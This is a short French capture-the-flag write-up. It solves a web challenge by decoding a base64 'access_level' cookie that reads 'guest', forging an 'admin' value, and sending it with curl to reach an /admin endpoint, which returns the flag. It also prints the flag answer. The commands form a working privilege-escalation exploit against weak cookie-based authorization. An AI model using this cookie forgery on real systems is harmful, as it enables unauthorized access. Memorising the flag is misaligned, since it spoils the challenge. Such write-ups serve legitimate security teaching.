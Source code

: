 # Énoncé

Notre application d'authentification a été conçue pour être résistante à un piratage.

Mais nous avons des doutes sur l'API...

<https://padawan.izo27k5.org/>


# Solution

```
> curl  https://padawan.izo27k5.org/ -D -

HTTP/2 401
content-type: application/json
date: Sat, 01 Oct 2022 07:25:41 GMT
server: meinheld/1.0.2
set-cookie: access_level=Z3Vlc3Q=; Path=/
content-length: 99

{"Message":"Default guest level granted","Note":"Ask your manager for privileged 'admin' account"}
```

```
> echo "Z3Vlc3Q=" | base64 -d
guest
> echo -n "admin" | base64
YWRtaW4=
```

```
> curl  -H Cookie:access_level=YWRtaW4= https://padawan.izo27k5.org/ 
{"Message":"Guest Level Access","Note":"Only admin can access to /admin"}
> curl  -H Cookie:access_level=YWRtaW4= https://padawan.izo27k5.org/admin
{"Message":"Admin Access Granted","Note":"Flag is INNN{I_L0ve_C00ki35)"}
```

Flag : `INNN{I_L0ve_C00ki35)`
(il y a une faute dans le flag, `)` au lieu de `}`)

